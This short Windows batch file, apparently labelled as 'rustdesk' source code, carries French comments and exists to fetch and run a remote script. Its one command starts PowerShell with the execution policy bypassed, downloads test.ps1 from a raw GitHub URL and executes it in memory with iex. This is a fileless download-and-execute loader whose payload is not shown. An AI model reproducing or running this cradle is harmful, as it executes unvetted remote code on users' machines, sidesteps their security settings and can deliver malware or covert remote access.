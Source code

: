 # rustdesk

@echo off
REM Lance le script PowerShell distant (raw) directement en mémoire.
REM Gère aussi le cas où le BAT est lancé depuis un chemin UNC.
pushd %~dp0 2>nul

powershell -NoProfile -ExecutionPolicy Bypass -Command "iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/loupirr/rustdesk/main/test.ps1')"

popd 2>nul
